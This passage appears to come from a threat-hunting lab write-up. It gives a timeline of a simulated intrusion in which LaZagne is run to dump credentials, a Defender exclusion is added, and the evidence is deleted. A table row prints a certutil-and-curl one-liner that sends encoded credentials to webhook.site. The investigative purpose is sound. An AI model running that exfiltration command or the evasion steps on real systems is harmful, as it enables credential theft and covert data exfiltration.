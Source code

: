 ![PowerShell commands** used to delete evidence.](Images/Image_6_Evidence_Deletion_PowerShell.png)

-------------

## **Chronological Event Timeline**


|**Step**|**Timestamp**|**Event**|**Details**|
|---|---|---|---|
|**1️⃣ LaZagne Downloaded**|`2025-02-20T19:05:38.2751686Z`|**The attacker downloaded `lazagne.exe`**|File stored in `C:\Users\labuser\Downloads\LaZagne.exe`|
|**2️⃣ Antivirus Exclusion Added**|`2025-02-20T19:08:17.5948715Z`|**The attacker excluded `Downloads` from Defender scans**|Exclusion added via PowerShell to **bypass AV detection**|
|**3️⃣ LaZagne Executed**|`2025-02-20T19:08:22.5384068Z`|**The attacker executed LaZagne** to extract credentials|Command: `lazagne.exe all`|
|**4️⃣ Credential Dump File Created**|`2025-02-20T19:08:35.4523168Z`|**Dumped credentials were stored in `creds_dump.txt`**|File located in `C:\Users\Public\creds_dump.txt`|
|**5️⃣ Data Exfiltration Initiated**|`2025-02-20T19:10:04.5440702Z`|**The attacker used `certutil.exe` and `curl.exe` to encode and exfiltrate credentials**|`certutil -encode creds_dump.txt encoded.txt && curl -X POST --data-binary "@encoded.txt" webhook.site`|
|**6️⃣ External Connection Established**|`2025-02-20T19:10:05.8937553Z`|**System connected to an external webhook (`webhook.site`)**|Remote **IP address accessed via port 443**|
|**7️⃣ Evidence Deletion - LaZagne and Credential Dump**|`2025-02-20T19:11:37.9798697Z`|**The attacker deleted `lazagne.exe`, `creds_dump.txt`, and `encoded.txt`**|PowerShell command `Remove-Item` used|


-----------------------


## **Summary**

The **user `labuser` on the `aph-threat-hunt` device** downloaded and executed **LaZagne** to extract stored credentials. After execution, the extracted credentials were **saved in `creds_dump.txt`** and later **encoded using `certutil.exe`**. The attacker then **exfiltrated the credentials** to an external **webhook server (`webhook.site`)** via **`curl.exe`**.

To **evade detection**, the attacker:

- **Added an antivirus exclusion** to the Defender policy.
- **Deleted evidence**, including the LaZagne binary, the credential dump file, and the encoded credentials.

This confirms **unauthorized credential dumping, antivirus evasion, and external data exfiltration**, requiring **immediate remediation and further investigation**.


----------------

## **Response Taken**
